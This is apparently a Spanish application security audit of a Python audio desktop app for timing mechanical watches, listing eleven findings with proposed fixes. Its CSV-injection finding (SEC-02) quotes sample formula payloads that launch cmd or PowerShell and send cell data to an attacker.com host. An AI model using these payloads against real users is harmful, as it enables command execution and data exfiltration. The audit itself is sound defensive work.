

# Auditoría de Seguridad Aplicativa (AppSec) — Advanced Timegrapher

**Proyecto:** Advanced Timegrapher (`adv-tg`)
**Versión Auditada:** 0.4.0
**Ruta del Código Fuente:** `/src` (`src/adv_tg/`)
**Fecha de la Auditoría:** 25 de octubre de 2026
**Auditor:** Especialista en Ciberseguridad Aplicativa (AppSec & Software Security)
**Clasificación del Documento:** Confidencial / Auditoría Técnica de Código

---

## 1. Resumen Ejecutivo

Se ha realizado una auditoría exhaustiva de seguridad sobre el código base de **Advanced Timegrapher** (`adv-tg`), una aplicación de escritorio desarrollada en Python 3.11+, PyQt6, NumPy/SciPy, PortAudio (`sounddevice`), libsndfile (`soundfile`) y arquitectura multiproceso para el análisis acústico y cronocomparador de relojes mecánicos.

El objetivo de esta auditoría fue identificar vulnerabilidades de software, riesgos de diseño arquitectónico, fallos de validación de entradas, problemas de interoperabilidad nativa (C-FFI / ctypes), riesgos en comunicación interproceso (IPC) y posibles vectores de ataque o denegación de servicio que puedan comprometer la integridad, disponibilidad o confidencialidad de la máquina del usuario final.

### 1.1 Resumen Cuantitativo de Hallazgos

| Severidad | Cantidad | Descripción General |
| :--- | :---: | :--- |
| 🔴 **Alta (High)** | **1** | Secuestro de librerías nativas / DLL Hijacking en búsqueda desprotegida (`audio_io.py`). |
| 🟠 **Media-Alta (Medium-High)** | **2** | Inyección de Fórmulas en exportación CSV (CWE-1236) y DoS por asignación de memoria ilimitada en lectura de audio (CWE-400). |
| 🟡 **Media (Medium)** | **3** | Subprocesos CLI sin timeout (CWE-400), rutas de logs hardcodeadas con violación FHS/permisos (CWE-377/732) y deserialización `pickle` en IPC (CWE-502). |
| 🔵 **Baja (Low)** | **3** | Firmas C-FFI incompletas en ctypes (CWE-119), falta de sanitización en nombres de archivo de pruebas (CWE-22) y potencial Log Injection (CWE-117). |
| ⚪ **Informativa (Info)** | **2** | Gestión de cadena de suministro / dependencias nativas C/C++ y supresión de excepciones en hilos de audio. |
| **Total** | **11** | **Hallazgos identificados y documentados.** |

---

## 2. Alcance y Metodología

### 2.1 Componentes Auditados en `/src`

1. **Núcleo de Audio e Ingesta:** `src/adv_tg/audio/` (`capture.py`, `capture_process.py`, `process_capture.py`, `gil_stats.py`).
2. **DSP Horológico y Modelos Matemáticos:** `src/adv_tg/core/` (`beat_detector.py`, `metrics.py`, `adc_clock.py`, `sample_stream.py`, `models.py`, `beat_types.py`).
3. **Interfaz Gráfica y Presentación (GUI PyQt6):** `src/adv_tg/ui/` (`main_window.py`, `capture_worker.py`, `worker_factory.py`, `stream_worker_base.py`, `null_engine.py`).
4. **Herramientas de Entrada/Salida y Utilidades:** `src/adv_tg/utils/` (`audio_files.py`, `audio_io.py`, `logger_setup.py`, `debugger.py`, `watch_db.py`).
5. **Herramientas de Línea de Comandos (CLI):** `src/adv_tg/tools/` (`detect_beats.py`, `measure.py`, `capture_check.py`, `check_samples.py`, `gil_probe.py`).
6. **Módulo de Simulación / MOCK:** `src/adv_tg/mock/` (`generator.py`, `worker.py`).
7. **Punto de Entrada e Internacionalización:** `src/adv_tg/main.py`, `src/adv_tg/i18n/translator.py`.

### 2.2 Metodología de Análisis

La auditoría se ejecutó bajo los lineamientos de:
- **OWASP Application Security Verification Standard (ASVS)** adaptado a aplicaciones cliente de escritorio (Desktop AppSec).
- **CWE/SANS Top 25 Most Dangerous Software Weaknesses**.
- Análisis Estático de Código Fuente (SAST) contextualizado en Python (manejo de memoria, tipado dinámico, gestión de hilos/procesos, C-FFI).
- Análisis de flujo de datos y taint analysis desde fuentes de entrada no confiables (archivos de audio externos, parámetros de línea de comandos, entradas de texto en la GUI y variables de entorno).

---

## 3. Catálogo Detallado de Vulnerabilidades y Brechas de Seguridad

---

### [SEC-01] Secuestro de Bibliotecas Dinámicas y DLL Hijacking (Untrusted Search Path)

* **Identificador:** SEC-01
* **Clasificación:** CWE-426 (*Untrusted Search Path*)
* **Severidad:** 🔴 **Alta (High)** — CVSS v3.1: **7.8** (`AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H`)
* **Ubicación:** [src/adv_tg/utils/audio_io.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_io.py#L291-L327)

#### Descripción Técnica
En la función `_load_libsndfile()`, el código intenta localizar la biblioteca dinámica compartida `libsndfile` iterando sobre una lista de nombres candidatos cuando `ctypes.util.find_library("sndfile")` no resuelve una ruta absoluta:

```python
# src/adv_tg/utils/audio_io.py: líneas 291-309
def _load_libsndfile() -> ctypes.CDLL | None:
    candidates: list[str] = []
    found = ctypes.util.find_library("sndfile")
    if found:
        candidates.append(found)
    candidates.extend(
        [
            "/opt/homebrew/lib/libsndfile.dylib",
            "/usr/local/lib/libsndfile.dylib",
            "libsndfile.dylib",
            "libsndfile.so.1",
            "libsndfile.so",
            "sndfile.dll",          # <--- Nombre relativo desprotegido en Windows
        ]
    )
    for path in candidates:
        try:
            lib = ctypes.CDLL(path) # <--- Carga sin validación de directorio seguro
```

#### Vector de Ataque e Impacto
En sistemas operativos Windows, invocar `ctypes.CDLL("sndfile.dll")` sin especificar un modo seguro de búsqueda (`winmode`) ni una ruta absoluta provoca que el cargador del sistema busque la DLL en el Directorio de Trabajo Actual (`Current Working Directory` - CWD).
Si un usuario abre o ejecuta `adv-tg` (o una herramienta CLI como `detect_beats`) desde una carpeta que contenga archivos descargados o compartidos (p. ej., `Downloads/`, un pendrive USB o una carpeta de red compartida) donde un atacante haya depositado un archivo malicioso con el nombre `sndfile.dll`, la biblioteca maliciosa se cargará inmediatamente en el espacio de memoria del proceso, ejecutando código arbitrario con los privilegios del usuario actual (*Arbitrary Code Execution*).

En Linux y macOS, nombres como `"libsndfile.so"` o `"libsndfile.dylib"` presentan un riesgo similar si variables de entorno como `LD_LIBRARY_PATH` o `DYLD_LIBRARY_PATH` contienen rutas relativas o el directorio actual (`.`).

#### Mitigación Recomendada
1. En Windows, restringir la carga únicamente a directorios de sistema o al directorio del paquete virtualenv usando `winmode` seguro o rutas absolutas validadas.
2. Comprobar la existencia del archivo en rutas absolutas estrictas antes de llamar a `ctypes.CDLL`:

```python
# Corrección propuesta:
import sys


def _load_libsndfile() -> ctypes.CDLL | None:
    # 1. soundfile ya incluye libsndfile compilado en la mayoría de plataformas
    # 2. Si se busca en el sistema, verificar rutas absolutas estrictas:
    candidates: list[Path] = []
    if sys.platform == "darwin":
        candidates.extend(
            [Path("/opt/homebrew/lib/libsndfile.dylib"), Path("/usr/local/lib/libsndfile.dylib")]
        )
    elif sys.platform == "linux":
        candidates.extend(
            [Path("/usr/lib/x86_64-linux-gnu/libsndfile.so.1"), Path("/usr/lib/libsndfile.so.1")]
        )
    elif sys.platform == "win32":
        # Nunca cargar "sndfile.dll" de forma relativa. Usar solo System32 o ruta de instalación segura.
        sys32 = Path(os.environ.get("SystemRoot", "C:\\Windows")) / "System32" / "sndfile.dll"
        candidates.append(sys32)

    for p in candidates:
        if p.is_file():
            try:
                return ctypes.CDLL(str(p))
            except OSError:
                continue
    return None
```

---

### [SEC-02] Inyección de Fórmulas en Archivos CSV Exportados (CSV / Formula Injection)

* **Identificador:** SEC-02
* **Clasificación:** CWE-1236 (*Improper Neutralization of Formula Elements in a CSV File*)
* **Severidad:** 🟠 **Media-Alta (Medium-High)** — CVSS v3.1: **6.8** (`AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N`)
* **Ubicación:**
  - [src/adv_tg/ui/main_window.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1583-L1632) (método `save_results_csv`)
  - [src/adv_tg/ui/main_window.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1680-L1718) (método `export_test_results`)
  - [src/adv_tg/tools/detect_beats.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/tools/detect_beats.py#L440-L476) (método `write_csv`)

#### Descripción Técnica
La aplicación permite al usuario ingresar el nombre de la prueba (`test_name`), seleccionar el calibre (`caliber`) y la posición del reloj (`position`). Al guardar los resultados mediante los botones "Export Results to CSV" o "Export Test Results", estos valores se escriben directamente en un archivo `.csv` utilizando `csv.DictWriter` sin escapar caracteres de inicio de fórmula:

```python
# src/adv_tg/ui/main_window.py: líneas 1543-1605
test_name = self.txt_test_name.text().strip() or "watch_test"
...
writer.writerow(
    {
        "test_name": test_name,        # <--- Entrada de texto sin sanitizar
        "caliber": caliber,            # <--- Proviene de combo o DB sin sanitizar
        "bph": cfg.bph,
        "lift_angle": f"{cfg.lift_angle:.1f}",
        "sample_rate": cfg.sample_rate,
        "position": current_pos,
        ...
    }
)
```

#### Vector de Ataque e Impacto
Si un usuario introduce en el campo de texto `Nombre de la prueba` cadenas como:
- `=cmd|'/c powershell IEX(...)'!A1`
- `=HYPERLINK("http://attacker.com/leak?data=" & A2, "Ver Reporte")`
- `@SUM(1+1)*cmd|' /C calc'!A0`
- `+cmd|' /C calc'!A0`
- `-2+3+cmd|' /C calc'!A0`

O si un atacante suministra un archivo `watch_db.csv` modificado con nombres de calibres maliciosos, al exportar el archivo CSV e interactuar con él en hojas de cálculo como Microsoft Excel, LibreOffice Calc o Google Sheets:
1. El software de hoja de cálculo interpretará la celda como una expresión ejecutable o fórmula dinámica (DDE - Dynamic Data Exchange).
2. Se pueden ejecutar comandos en el sistema operativo del usuario o exfiltrar automáticamente los datos de la hoja a servidores remotos a través de hipervínculos dinámicos.

#### Mitigación Recomendada
Implementar una función de saneamiento para celdas CSV que anteponga una comilla simple (`'`) o un espacio a cualquier valor de texto cuyo primer carácter sea `=`, `+`, `-`, `@`, `\t` o `\r`:

```python
def sanitize_csv_cell(value: Any) -> Any:
    if isinstance(value, str):
        if value and value[0] in ("=", "+", "-", "@", "\t", "\r"):
            return f"'{value}"
    return value
```

---

### [SEC-03] Denegación de Servicio (DoS) por Asignación de Memoria no Acotada en Decodificación de Audio

* **Identificador:** SEC-03
* **Clasificación:** CWE-400 (*Uncontrolled Resource Consumption*) / CWE-770 (*Allocation of Resources Without Limits or Throttling*)
* **Severidad:** 🟠 **Media (Medium)** — CVSS v3.1: **6.2** (`AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H`)
* **Ubicación:** [src/adv_tg/utils/audio_files.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_files.py#L165-L202) (función `read_audio`)

#### Descripción Técnica
En el módulo `audio_files.py`, la función `read_audio(path)` lee archivos de audio completos en memoria:

```python
# src/adv_tg/utils/audio_files.py: líneas 181-192
with sf.SoundFile(str(p)) as f:
    data = f.read(dtype="float64", always_2d=False)  # <--- Asignación masiva directa
...
samples = np.ascontiguousarray(data, dtype=np.float64)
```

Cada muestra de audio se decodifica en formato `float64` (8 bytes por muestra por canal).
No existe ninguna validación previa de:
1. Duración máxima del archivo.
2. Número máximo de frames declarados en la cabecera.
3. Tamaño total del archivo en disco o memoria proyectada.

#### Vector de Ataque e Impacto
- **Archivos de Audio Decompresivos (Audio Bombs):** Un atacante puede crear un archivo `.wav` o `.flac` con una cabecera que especifique miles de millones de frames o canales excesivos.
- **Grabaciones Extensas:** Un archivo de audio de varias horas grabado a 192 kHz provocará un consumo repentino de decenas de gigabytes de memoria RAM.
- **Consecuencia:** Agotamiento de la memoria del sistema operativo, activación del OOM Killer (Linux/macOS), bloqueo del sistema por *thrashing* de swap o fallo crítico del proceso (`MemoryError` / crash).

#### Mitigación Recomendada
1. Consultar primero `audio_info(path)` antes de decodificar.
2. Establecer un límite máximo estricto de duración/memoria (por ejemplo, máx. 30 minutos o 500 MB en memoria) para funciones que lean el archivo completo en un solo array:

```python
MAX_AUDIO_FRAMES_IN_MEMORY = 48000 * 3600  # Máximo 1 hora a 48 kHz (~1.3 GB float64)


def read_audio(path: Path | str, max_frames: int = MAX_AUDIO_FRAMES_IN_MEMORY) -> AudioData:
    p = Path(path)
    info = audio_info(p)
    if info.frames > max_frames:
        raise AudioFileError(
            f"El archivo '{p}' excede el límite máximo de memoria permitido "
            f"({info.frames} frames > {max_frames}). Use procesamiento por bloques."
        )
    ...
```

---

### [SEC-04] Bloqueo Indefinido y DoS en Ejecución de Subprocesos CLI

* **Identificador:** SEC-04
* **Clasificación:** CWE-400 (*Uncontrolled Resource Consumption*) / CWE-834 (*Excessive Iteration / Hang*)
* **Severidad:** 🟡 **Media (Medium)** — CVSS v3.1: **5.5** (`AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H`)
* **Ubicación:** [src/adv_tg/utils/audio_io.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_io.py#L450-L494) (función `_write_via_cli`)

#### Descripción Técnica
La función `_write_via_cli()` se utiliza como codificador alternativo llamando a binarios externos del sistema (`flac`, `oggenc`, `ffmpeg`) mediante `subprocess.run()`:

```python
# src/adv_tg/utils/audio_io.py: líneas 465, 471, 488
res = subprocess.run(cmd, capture_output=True, check=False)  # <--- Sin timeout
```

A diferencia de `gil_probe.py` (que define `timeout=args.secs + 2 * SAFETY_MARGIN_S`), en `audio_io.py` **no se establece el parámetro `timeout`**.

#### Vector de Ataque e Impacto
Si alguno de los ejecutables externos (`flac`, `oggenc` o `ffmpeg`) entra en bucle infinito, se bloquea esperando datos por stdin, se cuelga por problemas de I/O en disco o deadlocks en pipes, `subprocess.run()` esperará indefinidamente.
Dado que `save_audio_recording()` es invocada en el flujo de la aplicación (incluso desde la GUI), esto provoca el congelamiento irreversible del hilo de ejecución o de la ventana principal, requiriendo forzar el cierre del proceso (`kill -9`).

#### Mitigación Recomendada
Configurar un `timeout` explícito en todas las llamadas a `subprocess.run()`, por ejemplo `timeout=30.0`, y capturar la excepción `subprocess.TimeoutExpired`:

```python
try:
    res = subprocess.run(cmd, capture_output=True, check=False, timeout=30.0)
except subprocess.TimeoutExpired:
    logger.error("El proceso de codificación CLI '%s' superó el tiempo límite.", cmd[0])
    return False
```

---

### [SEC-05] Ubicación Hardcodeada de Directorio de Logs, Violación de Estándares de Sistema de Archivos y Riesgo de Permisos

* **Identificador:** SEC-05
* **Clasificación:** CWE-377 (*Insecure Temporary File*) / CWE-732 (*Incorrect Permission Assignment for Critical Resource*) / CWE-276
* **Severidad:** 🟡 **Media (Medium)** — CVSS v3.1: **5.3** (`AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L`)
* **Ubicación:**
  - [src/adv_tg/utils/logger_setup.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/logger_setup.py#L30-L55)
  - [src/adv_tg/main.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/main.py#L40-L48)

#### Descripción Técnica
En `logger_setup.py`, el directorio de registros de la aplicación está calculado de forma relativa al árbol de directorios del código fuente:

```python
# src/adv_tg/utils/logger_setup.py: líneas 30-32
BASE_DIR: Path = Path(__file__).resolve().parents[3]
LOG_DIR: Path = BASE_DIR / "logs"
LOG_FILE: Path = LOG_DIR / "adv_tg.log"
```

En `main.py`, se invoca:
```python
LoggerSetup.LOG_DIR.mkdir(parents=True, exist_ok=True)
fault_path = LoggerSetup.LOG_DIR / "faulthandler.log"
_FAULT_LOG_FH = fault_path.open("a", encoding="utf-8")
```

#### Vector de Ataque e Impacto
1. **Fallo de Ejecución en Instalaciones Globales/Empaquetadas (Denial of Service):** Cuando el paquete se instala en el sistema a través de `pip install .` o como paquete del sistema (`/usr/lib/python3.12/site-packages/adv_tg` o `/usr/local/...`), `parents[3]` apunta a `/usr` o `/usr/local`. Si un usuario sin privilegios ejecuta `adv-tg`, la aplicación intentará crear `/usr/logs` o `/usr/local/logs`, lo cual generará un `PermissionError` inmediato e impedirá el inicio del software.
2. **Escalado Local y Riesgos en Sistemas Multiusuario:** Si un administrador ejecuta la aplicación con privilegios elevados (`sudo` o entorno multiusuario), se crearán archivos en directorios compartidos del sistema. En entornos Unix compartidos (`/tmp` o directorios accesibles), esto puede exponer registros de ejecución a otros usuarios locales o habilitar ataques de manipulación de enlaces simbólicos (*Symlink following / TOCTOU*).
3. **Incumplimiento de Estándares:** No respeta los estándares del sistema operativo:
   - Linux: XDG Base Directory Specification (`~/.local/state/adv-tg/` o `~/.cache/adv-tg/`).
   - macOS: `~/Library/Logs/AdvancedTimegrapher/`.
   - Windows: `%LOCALAPPDATA%\AdvancedTimegrapher\Logs`.

*(Nota: La dependencia `platformdirs` ya se encuentra presente en el entorno pero no es aprovechada).*

#### Mitigación Recomendada
Utilizar `platformdirs` o `QStandardPaths` para determinar las rutas de logs del usuario de forma segura y estándar:

```python
import platformdirs

LOG_DIR = Path(platformdirs.user_log_dir(appname="adv-tg", appauthor="AdvancedTimegrapher"))
LOG_DIR.mkdir(parents=True, exist_ok=True, mode=0o700)
```

---

### [SEC-06] Riesgo de Deserialización Insegura con `pickle` en Comunicación Inter-Proceso (IPC)

* **Identificador:** SEC-06
* **Clasificación:** CWE-502 (*Deserialization of Untrusted Data*)
* **Severidad:** 🟡 **Media-Baja (Low-Medium)** — CVSS v3.1: **4.7** (`AV:L/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N`)
* **Ubicación:** [src/adv_tg/audio/process_capture.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/audio/process_capture.py#L323-L370)

#### Descripción Técnica
Para la captura aislada de audio, el proceso padre y el proceso hijo se comunican a través de tres tuberías (`multiprocessing.Pipe`): `ctrl_conn`, `data_conn` y `evt_conn`.
El canal de datos (`data_conn`) fue diseñado con buenas prácticas de seguridad binaria usando `struct` y arrays NumPy contiguos (`recv_bytes()`).
Sin embargo, el canal de eventos (`evt_conn`) utiliza `conn.send((kind, payload))` y `conn.recv()`:

```python
# src/adv_tg/audio/process_capture.py: línea 369
self._on_event(*conn.recv())
```

El método `conn.recv()` de Python en tuberías estándar deserializa automáticamente los datos utilizando el módulo `pickle`.

#### Vector de Ataque e Impacto
Aunque en entornos Unix las tuberías anónimas heredadas por `spawn` son inaccesibles para usuarios distintos, en sistemas Windows o en arquitecturas donde descriptores de archivo o tuberías con nombre puedan ser interceptados, manipulados o inyectados por procesos en el mismo contexto de usuario, la deserialización mediante `pickle` permite la ejecución arbitraria de comandos si se inyecta un stream con clases maliciosas (`__reduce__`).

#### Mitigación Recomendada
Adoptar serialización segura basada en texto estructurado como `json` o un esquema binario ligero (`struct` / `msgpack` / `protobuf`), eliminando `pickle` por completo de la arquitectura IPC:

```python
# Envio seguro en JSON
evt_conn.send_bytes(json.dumps({"kind": kind, "payload": payload}).encode("utf-8"))

# Recepcion segura
raw = conn.recv_bytes()
data = json.loads(raw.decode("utf-8"))
self._on_event(data["kind"], data["payload"])
```

---

### [SEC-07] Declaración Incompleta de Signaturas en Interfaz Nativa C (ctypes ABI)

* **Identificador:** SEC-07
* **Clasificación:** CWE-119 (*Improper Restriction of Operations within the Bounds of a Memory Buffer*) / CWE-242 / CWE-686
* **Severidad:** 🔵 **Baja-Media (Low-Medium)** — CVSS v3.1: **4.4** (`AV:L/AC:M/PR:N/UI:N/S:U/C:N/I:L/A:L`)
* **Ubicación:** [src/adv_tg/core/adc_clock.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/core/adc_clock.py#L500-L525)

#### Descripción Técnica
En `adc_clock.py`, la función `linux_ntp_synchronized()` interactúa con la biblioteca estándar de C (`libc`) invocando la llamada de sistema `adjtimex`:

```python
# src/adv_tg/core/adc_clock.py: líneas 512-517
libc = ctypes.CDLL(None, use_errno=True)
buf = ctypes.create_string_buffer(512)  # struct timex, modes = 0 (read only)
state = libc.adjtimex(buf)
```

No se definen las propiedades `argtypes` ni `restype` para `libc.adjtimex`.

#### Vector de Ataque e Impacto
En Python `ctypes`, si no se configuran `argtypes` y `restype`, se asume por defecto que todos los argumentos y el valor de retorno son enteros con signo de 32 bits (`c_int`).
En arquitecturas de 64 bits (x86_64, aarch64, riscv64), pasar un puntero a una función sin especificar `argtypes = [ctypes.c_void_p]` puede provocar truncamiento de punteros a 32 bits en registros o desalineación de la pila según la ABI de llamadas de C. Además, se utiliza un búfer genérico de 512 bytes en lugar de definir la estructura C exacta `struct timex`. Esto puede desencadenar comportamiento indefinido o fallos de segmentación (*segfault*).

#### Mitigación Recomendada
Declarar formalmente los tipos de entrada y retorno antes de la invocación:

```python
libc.adjtimex.argtypes = [ctypes.c_void_p]
libc.adjtimex.restype = ctypes.c_int
```

---

### [SEC-08] Ausencia de Sanitización en Nombre de Prueba (`test_name`) para Rutas de Exportación

* **Identificador:** SEC-08
* **Clasificación:** CWE-22 (*Improper Limitation of a Pathname to a Restricted Directory*) / CWE-73
* **Severidad:** 🔵 **Baja (Low)** — CVSS v3.1: **3.8** (`AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N`)
* **Ubicación:**
  - [src/adv_tg/ui/main_window.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1543)
  - [src/adv_tg/ui/main_window.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1641)
  - [src/adv_tg/ui/main_window.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1963)

#### Descripción Técnica
Los métodos de guardado en `main_window.py` construyen el nombre de archivo sugerido concatenando directamente el contenido del widget `QLineEdit` `txt_test_name`:

```python
test_name = self.txt_test_name.text().strip() or "watch_test"
default_name = f"{test_name}_results.csv"
```

Si el texto contiene secuencias de salto de directorio (`../`, `..\`) o caracteres ilegales en Windows/Linux (`*`, `?`, `:`, `"`, `<`, `>`, `|`), el diálogo de guardado del sistema puede comportarse de manera errática, o si la función es invocada de forma programática pasando parámetros derivados, podría sobreescribir archivos en ubicaciones no deseadas.

#### Mitigación Recomendada
Filtrar caracteres no alfanuméricos en el nombre base sugerido:

```python
safe_name = (
    "".join(c for c in test_name if c.isalnum() or c in ("-", "_", " ")).strip() or "watch_test"
)
default_name = f"{safe_name}_results.csv"
```

---

### [SEC-09] Potencial Inyección de Registros (Log Injection) por Entradas no Sanitizadas

* **Identificador:** SEC-09
* **Clasificación:** CWE-117 (*Improper Output Neutralization for Logs*)
* **Severidad:** 🔵 **Baja (Low)** — CVSS v3.1: **3.1** (`AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N`)
* **Ubicación:** [src/adv_tg/utils/debugger.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/debugger.py#L44-L51), [src/adv_tg/ui/main_window.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py)

#### Descripción Técnica
En `debugger.py`, el método `_fmt_ctx(ctx)` renderiza pares `clave=valor` para el log:

```python
def _fmt_ctx(ctx: dict[str, Any]) -> str:
    if not ctx:
        return ""
    return " " + " ".join(
        f"{k}={v!r}" if isinstance(v, str) else f"{k}={v}" for k, v in ctx.items()
    )
```

Si una variable de contexto incluye saltos de línea (`\n`, `\r`) no escapados, un usuario malicioso podría simular entradas de registro falsas (e.g. forjando líneas `INFO - 25-10-2026 - Authentication successful`) para engañar a auditorías o analistas forenses. Aunque el uso de `!r` para strings mitiga parcialmente este efecto añadiendo comillas y escapando caracteres `\n` como `\n` literal en strings, los campos convertidos implícitamente por `str(v)` en otros objetos podrían permitir inyección.

#### Mitigación Recomendada
Garantizar que todos los valores en el contexto de registro reemplacen explícitamente caracteres de control (`\r`, `\n`) antes de registrar en el archivo.

---

### [SEC-10] Gestión de la Cadena de Suministro y Bibliotecas Nativas Empaquetadas

* **Identificador:** SEC-10
* **Clasificación:** CWE-1104 (*Use of Unmaintained Third Party Components*) / CWE-1395
* **Severidad:** ⚪ **Informativa (Informational)**
* **Ubicación:** [pyproject.toml](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/pyproject.toml#L15-L25)

#### Descripción Técnica
1. **Librerías C/C++ Bundled en Wheels:** La librería `soundfile` incluye binarios precompilados de `libsndfile`, y `sounddevice` incluye `PortAudio`. Históricamente, `libsndfile` ha registrado múltiples vulnerabilidades de corrupción de memoria al procesar archivos WAV/FLAC corruptos (CVE-2021-3246, CVE-2022-33065). Es fundamental verificar que la versión de `soundfile` empaquete una compilación actualizada de `libsndfile` (>= 1.2.2).
2. **Dependencias sin acotación superior:** En `pyproject.toml`:
   ```toml
   dependencies = [
       "numpy>=1.26",
       "scipy>=1.11",
       "sounddevice>=0.4.6",
       "soundfile>=0.14.0",
       "PyQt6>=6.6",
       "pyqtgraph>=0.13",
       "PyOpenGL",
       "PyOpenGL_accelerate",
   ]
   ```
   Las dependencias están definidas con rangos abiertos sin límite superior (`>=`). Una actualización imprevista de una dependencia de terceros podría introducir código roto o vulnerabilidades aguas arriba (*Supply Chain Poisoning*).
3. **`PyOpenGL_accelerate`:** Este paquete está obsoleto, a menudo falla en compilar en Python 3.12+ y la aceleración OpenGL ya fue desactivada por defecto en `main_window.py` debido a artefactos gráficos. Mantenerlo como dependencia obligatoria expone al proyecto a problemas de compilación y potenciales fallos de seguridad sin aportar funcionalidad activa.

#### Mitigación Recomendada
- Retirar `PyOpenGL_accelerate` de las dependencias obligatorias si no se utiliza activamente.
- Incorporar herramientas de análisis continuo de dependencias (p. ej., `pip-audit` o dependabot de GitHub) en los flujos de CI.

---

### [SEC-11] Supresión Silenciosa de Excepciones sin Registro Diferido en Callbacks de Audio

* **Identificador:** SEC-11
* **Clasificación:** CWE-391 (*Unchecked Error Condition*)
* **Severidad:** ⚪ **Informativa (Informational)**
* **Ubicación:** [src/adv_tg/audio/capture.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/audio/capture.py#L170-L172), [src/adv_tg/audio/capture_process.py](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/audio/capture_process.py#L196-L198)

#### Descripción Técnica
En el hilo de tiempo real de PortAudio:

```python
try:
    self._stream.write(indata[:, 0], t0, adc_ns=adc, wall_ns=wall)
except Exception:
    self.callback_errors += 1
```

Por diseño (para evitar abortar el stream C de PortAudio), las excepciones se suprimen y solo se incrementa un contador entero `self.callback_errors += 1`.
Sin embargo, no se guarda el tipo de excepción ni el mensaje para su posterior inspección en un hilo seguro, dificultando el diagnóstico de condiciones anómalas o corrupciones de estado en producción.

#### Mitigación Recomendada
Almacenar la última excepción capturada (sin formatear traceback en el hilo de audio) en una variable atómica o registrar su nombre (`type(exc).__name__`) para volcarla al log en la siguiente iteración de telemetría de 1 Hz.

---

## 4. Matriz de Priorización y Plan de Remediación

A continuación se presenta el plan de acción sugerido para los desarrolladores del proyecto, priorizado según impacto y facilidad de implementación:



### Tabla de Seguimiento

| ID | Vulnerabilidad | Severidad | Esfuerzo de Corrección | Estado Sugerido |
| :--- | :--- | :---: | :---: | :---: |
| **SEC-01** | DLL Hijacking en `_load_libsndfile()` | 🔴 Alta | Bajo (< 1 h) | **Pendiente / P0** |
| **SEC-02** | Inyección de Fórmulas en CSV | 🟠 Media-Alta | Bajo (< 2 h) | **Pendiente / P0** |
| **SEC-03** | Agotamiento de RAM en `read_audio()` | 🟠 Media | Bajo (< 2 h) | **Pendiente / P1** |
| **SEC-04** | Subprocesos CLI sin timeout | 🟡 Media | Muy bajo (< 30 min) | **Pendiente / P1** |
| **SEC-05** | Directorio de logs hardcodeado | 🟡 Media | Medio (2-3 h) | **Pendiente / P1** |
| **SEC-06** | Deserialización `pickle` en IPC | 🟡 Media | Medio (3-4 h) | **Pendiente / P2** |
| **SEC-07** | Signatura incompleta `adjtimex` ctypes | 🔵 Baja | Muy bajo (< 30 min) | **Pendiente / P2** |
| **SEC-08** | Falta de sanitización en `test_name` | 🔵 Baja | Muy bajo (< 30 min) | **Pendiente / P2** |
| **SEC-09** | Log Injection en Debugger | 🔵 Baja | Bajo (< 1 h) | **Pendiente / P2** |
| **SEC-10** | Dependencias nativas y abiertas | ⚪ Info | Bajo (< 1 h) | **Pendiente / P3** |
| **SEC-11** | Supresión de excepciones en audio | ⚪ Info | Bajo (< 1 h) | **Pendiente / P3** |

---

## 5. Conclusiones

La arquitectura de **Advanced Timegrapher** evidencia un notable rigor técnico en el procesamiento de señales en tiempo real: el aislamiento del hilo de captura en un subproceso independiente (`capture_process.py`), la implementación del búfer circular lock-free de un solo productor (`sample_stream.py`) y la ausencia de operaciones bloqueantes en los callbacks de audio son decisiones de ingeniería excelentes.

No obstante, desde la perspectiva de ciberseguridad aplicativa, existen brechas clásicas de aplicaciones cliente que deben subsanarse:
1. **La búsqueda no restringida de librerías nativas (`sndfile.dll`)** representa el riesgo más crítico para la ejecución de código no confiable.
2. **La falta de saneamiento en exportaciones CSV** expone a los usuarios a ataques de inyección de fórmulas al compartir o analizar sus registros de calibración.
3. **El manejo de archivos de audio sin cotas máximas de asignación de memoria** y la ausencia de timeouts en herramientas externas abren la puerta a denegaciones de servicio locales.
4. **La estructura de logging hardcodeada** compromete la portabilidad e instalación limpia en sistemas multiusuario y entornos Unix estándar.

Implementando las medidas de remediación listadas en la sección 4, la aplicación alcanzará un estándar de robustez y seguridad altamente competitivo y seguro para su despliegue comercial o de código abierto.
